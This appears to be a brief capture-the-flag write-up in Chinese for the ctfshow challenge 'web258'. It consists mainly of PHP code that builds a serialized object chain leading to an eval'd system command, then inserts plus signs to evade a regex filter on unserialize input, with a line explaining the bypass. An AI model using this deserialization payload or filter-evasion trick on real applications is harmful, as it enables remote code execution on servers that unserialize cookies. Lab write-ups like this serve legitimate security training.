

# web258
```
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code="system('tac flag.php');";
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}

$a=serialize(new ctfShowUser());
$b=str_replace("O:11","O:+11",$a);
$b=str_replace("O:8","O:+8",$b);
echo $b;
echo urlencode($b);
```
对user做了过滤
会匹配O:11改为+11,O:+8即可绕过
